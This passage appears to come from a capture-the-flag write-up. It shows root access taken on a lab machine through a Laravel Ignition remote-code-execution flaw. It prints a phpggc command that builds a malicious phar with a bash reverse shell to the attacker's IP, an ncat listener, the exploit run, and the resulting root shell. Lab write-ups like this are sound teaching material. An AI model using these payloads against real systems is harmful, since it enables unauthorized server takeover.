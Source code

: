 We can now use this [PoC](https://github.com/ambionics/laravel-exploits) which belongs to the blogpost to exploit this. Along the exploit script we also need [phpgcc](https://github.com/ambionics/phpggc) to create our malicious `phar`.

First we generate the phar file with `phpggc`, specifying a reverse shell as payload and set up a `ncat` listener again.

```
$ php -d'phar.readonly=0' ./phpggc/phpggc --phar phar -o /tmp/exploit.phar --fast-destruct monolog/rce1 system "bash -c 'bash -i >&/dev/tcp/10.10.14.68/7575 0>&1'"
```

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
```

Next we exectue the python script with our previously generated phar.

```
$ python3 laravel-ignition-rce.py http://localhost:8001/ /tmp/exploit.phar
+ Log file: /home/developer/myproject/storage/logs/laravel.log
+ Logs cleared
+ Successfully converted to PHAR !
```

We almost instantly get a reverse shell back as the root user and are able to add the flag to our collection.

```
$ nc -lnvp 7575
Ncat: Version 7.91 ( https://nmap.org/ncat )
Ncat: Listening on :::7575
Ncat: Listening on 0.0.0.0:7575
Ncat: Connection from 10.129.193.59.
Ncat: Connection from 10.129.193.59:60260.
bash: cannot set terminal process group (11736): Inappropriate ioctl for device
bash: no job control in this shell
root@horizontall:/home/developer/myproject/public# id
id
uid=0(root) gid=0(root) groups=0(root)
root@horizontall:/home/developer/myproject/public# wc -c /root/root.txt
wc -c /root/root.txt
33 /root/root.txt
```
